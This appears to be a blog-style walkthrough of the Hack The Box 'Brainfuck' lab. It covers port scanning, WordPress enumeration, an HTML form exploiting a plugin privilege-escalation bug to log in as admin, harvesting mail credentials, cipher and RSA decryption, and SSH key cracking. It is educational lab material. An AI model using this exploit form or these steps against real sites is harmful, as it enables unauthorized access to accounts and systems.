

# Resolution summary

- Identified open ports and services using nmap
- Explored the HTTPS website, found alternate hostnames, and extracted an email address from the SSL certificate
- Conducted a wpscan to identify WordPress users and vulnerabilities
- Exploited a Privilege Escalation vulnerability giving us access to the WordPress admin dashboard
- Found SMTP credentials in the Easy WP SMTP Settings and logged into the users mailbox
- The mailbox contained credentials to the Super Secret Forum which I then gained access to
- The forum had an encrypted thread that was deciphered and the location of an id_rsa file was revealed
- The id_rsa file passphrase was cracked an initial access was gained
- Retrieved the user.txt file and located an RSA encryption script called encrypt.sage that was encrypting the contents of the root.txt file
- Used a Python script to decrypt the RSA encrypted content, and then converted and decoded the content to get the contents of the root.txt file.

## Improved skills

- Decrypting and deciphering via Python
- How to use Evolution mail client
- Using ordinal values and ASCII tables
- Python script that does the deciphering instead of going character-by-character

## Used tools

- nmap
- searchsploit
- wpscan
- ssh2john, john
- Evolution
- Python3

---

# Information Gathering

Scanned all TCP ports:

```bash
#initial nmap scan
nmap -sV -sC -v -p- -T5 -oN nmap/initial $IP --open

#nmap results
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:d0:b3:34:e9:a5:37:c5:ac:b9:80:df:2a:54:a5:f0 (RSA)
|   256 6b:d5:dc:15:3a:66:7a:f4:19:91:5d:73:85:b2:4c:b2 (ECDSA)
|_  256 23:f5:a3:33:33:9d:76:d5:f2:ea:69:71:e3:4e:8e:02 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
110/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: TOP SASL(PLAIN) USER UIDL AUTH-RESP-CODE RESP-CODES CAPA PIPELINING
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: IMAP4rev1 have IDLE ID ENABLE Pre-login AUTH=PLAINA0001 capabilities listed post-login OK LITERAL+ more SASL-IR LOGIN-REFERRALS
443/tcp open  ssl/http nginx 1.10.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-title: Welcome to nginx!
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Issuer: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-04-13T11:19:29
| Not valid after:  2027-04-11T11:19:29
| MD5:   cbf1:6899:96aa:f7a0:0565:0fc0:9491:7f20
|_SHA-1: f448:e798:a817:5580:879c:8fb8:ef0e:2d3d:c656:cb66
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.0 (Ubuntu)
Service Info: Host:  brainfuck; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

## TCP Port 443- HTTPS

Navigated to the main page via the browser, nothing interesting, getting a 404 error leaks the webserver technology and version information


Nothing of interest came back from directory enumeration 😟


Since it’s HTTPS, maybe there will be some useful information inside the certificate?


Boom, two alternate hostnames. I added this to my `etc/hosts` file and navigated to the new site names individually.

Before going to the new sites, I also found an email address in the HTTPS certificate


Given that their is common email ports open, this will likely be helpful down the road

Okay, back to those sites…


main page


Super Secret Forum page

The main page notes that it is a WordPress site so lets run a `wpscan`

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks -e u --api-token <redacted>
```

We found two users


We found multiple vulnerabilities but to do this box the intended way, I will only focus on one vulnerability which is the one that would’ve shown up if this ox was done near the release date


So, an authenticated SQL injection… well that’s no good if we don’t have credentials… let’s see what `searchsploit` has to say about this


`searchsploit` indentified two other vulnerabilities. We will ignore the first one as the version is different than in this case. Let’s focus on the Privilege Escalation exploit.

When reading the exploit, it states:


Let’s adjust the code and test it out..

Edited code:

```html
<form method="post" action="http://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

Make sure to save the file as HTML

I will now spin up a webserver in the same directory as my HTML exploit file using Python

```bash
python3 -m http.server 80
```

I will then browse to it via my web browser


When pressing “Login”, the page eventually appears blank, but, the url address has changed


When navigating back to the main page, we see that we are logged in as admin!


I attempted to get a quick reverse shell by editing the PHP in the Themes Editor but none of the files were writable. Remembering that there are open mail ports I noticed an option in Settings called `Easy WP SMTP`. This has the `orestis` user’s SMTP username and password configured. However, the password is obfuscated. How can we get around this…

I opened up my browser’s Inspector tab via Ctrl + Shift + C(Firefox, other browser may differ), and I selected the input box of `SMTP Password`. 


Sweet, we now have valid SMTP credentials for the user `orestis`.

`orestis:kHGuERB29DNiNE`

To try and view emails for this user, we need to login to a mail client. I used `evolution` as it could be easily installed in Kali Linux via one command:

```bash
sudo apt-get install evolution
```

I then went through the setup portal filling in the information we just found on the Wordpress Easy WP SMTP Settings page.


We’re in. Time to look at some emails.

We immediately found credentials in an email. These creds will give us access to the Super Secret Forum page we discovered earlier.


`orestis:kIEnnfEKJ#9UmdO`

Boom, we’re in


I immediately noticed two new forum posts that look interesting.

The post titled “Key” seemed like a bunch of gibberish


The post titled “SSH Access” gives us some direction in where to find a potential SSH key. Looks like it points us to the gibberish we found in the “Key” post…


Note that in the “SSH Access” forum, Orestis signs every message with “Orestis - Hacking for fun and profit”

For this section, I’m not ashamed to admit I had to follow Ippsec’s [YouTube video](https://youtu.be/o5x1yg3JnYI?si=WQ-xHDLVNuWjdPYa) as I had no clue where to even start. I tried to use my good friend, ChatGPT, but he was deciphering information about Star Wars(?) and I don’t think that will give me my SSH key.. 🤣


Ippsec notes that we must move backwards on the ASCII table starting from the ciphered character value to the resulting value of the plaintext ordinal value - 97. We do this because the ordinal value of “a” is 97. Thus, when we get back to “a”, we will start back from the ASCII table at the letter “z”. Trust me, I know this is confusing so let me try to demonstrate it. Take the following strings:

```
#plain text
Orestis - Hacking for fun and profit

#ciphered text
Pieagnm - Jkoijeg nbw zwx mle grwsnn
```

Here’s some simple pseudo code to help explain this.

```
decipheredChar=cipheredChar - ((ordinal(plainChar) - 97)

#example 1
decipheredChar[0] = "p" - ((ordinal("o") - 97) = "b"

#example 2
decipheredChar[1] = "i" - ((ordinal("r") - 97) = "r"

#example 3
decipheredChar[2] = "e" - ((ordinal("e") - 97) = "a"
```

Now, here’s a Python script I wrote with the help of ChatGPT. I had the pseudo code equation, I just needed to translate it into Python to actually do what I know needed to be done to decipher the message.

```python
def decipher_message(ciphered_str, plain_str):
    deciphered_message = ""

    for ciphered_char, plain_char in zip(ciphered_str, plain_str):
        if ciphered_char.isalpha():
            deciphered_ord = ord(ciphered_char) - (ord(plain_char.lower()) - 97)
            if ciphered_char.islower():
                deciphered_char = chr(deciphered_ord) if deciphered_ord >= ord('a') else chr(deciphered_ord + 26)
            else:
                deciphered_char = chr(deciphered_ord) if deciphered_ord >= ord('A') else chr(deciphered_ord + 26)
            deciphered_message += deciphered_char
        else:
            deciphered_message += ciphered_char

    return deciphered_message

# Example
plain_string = "Orestis - Hacking for fun and profit"
ciphered_string = "Pieagnm - Jkoijeg nbw zwx mle grwsnn"

decoded_message = decipher_message(ciphered_string, plain_string)
print(decoded_message.replace(" ", ""))
```

When running this script we get:


What appears to be constant is the repeating of the string “fuckmybrain”

We will now go to an online vigenere cipher tool [here](https://rumkin.com/tools/cipher/vigenere/). Here we can set the Operating Mode to “Decrypt” and the Cipher Key to “fuckmybrain”. Now, when entering in the ciphered message, we get the deciphered message!


I then placed another ciphered message that appeared to contain a URL and got back the location of an SSH key!


Finally 😅


# Exploitation

## SSH Key Passphrase Bruteforce

Andddddd the key has a passphrase 😕 I did assume this would be the case referring to the discussions on the Super Secret Forum page, we will take Orestis’ advice and attempt to bruteforce the SSH key passphrase


We cracked it! `orestis:3poulakia!`

Time to login 

# Privilege Escalation

## Local enumeration

Found the `user.txt` file in the users home directory. Also, found a file called `encrypt.sage` which appeared to be a script.

encrypt.sage


The script looks like its encrypting the contents of `root.txt` via RSA. We will lookup how to decrypt [RSA given p, q, and e](https://crypto.stackexchange.com/questions/19444/rsa-given-q-p-and-e). We will edit this code with the contents from `debug.txt` and `output.txt` respectively.

The resulting code should look like this:

```python
def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
        q, r = b//a, b%a
        m, n = x-u*q, y-v*q
        b,a, x,y, u,v = a,r, u,v, m,n
        gcd = b
    return gcd, x, y

def main():

    p = 7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
    q = 7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
    e = 30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
    ct = 44641914821074071930297814589851746700593470770417111804648920018396305246956127337150936081144106405284134845851392541080862652386840869768622438038690803472550278042463029816028777378141217023336710545449512973950591755053735796799773369044083673911035030605581144977552865771395578778515514288930832915182

    # compute n
    n = p * q

    # Compute phi(n)
    phi = (p - 1) * (q - 1)

    # Compute modular inverse of e
    gcd, a, b = egcd(e, phi)
    d = a

    print( "n:  " + str(d) );

    # Decrypt ciphertext
    pt = pow(ct, d, n)
    print( "pt: " + str(pt) )

if __name__ == "__main__":
    main()
```

Note: When using vim or nano to copy the contents from the `output.txt` and `debug.txt` files, I noticed that copy *wasn’t actually copying all of the contents*. Thus, I recommend using cat to send the contents of the file to stdout.

We will now run the python script and wallah!


What we are interested in is the “pt: “ part. We now have to convert this plaintext to ASCII hex, and then decode the hex to get the contents of the root flag. I opted to do this via a Python terminal:

```python
#store the plaintext output from decode.py as a variable
pt = 24604052029401386049980296953784287079059245867880966944246662849341507003750

#output the hex conversion of the plaintext as a string
str(hex(pt))
'0x3665666331613564626238393034373531636536353636613330356262386566L'

#get rid of starting and end characters
str(hex(pt)[2:-1])
'3665666331613564626238393034373531636536353636613330356262386566'

#finally, decode the hex to get the contents of root.txt
str(hex(pt)[2:-1]).decode('hex')
'<redacted>'
```

Root flag contents obtained 🧠💥

# Trophy

> "My brain has too many tabs open.”
> 

**User.txt**


**Root.txt**

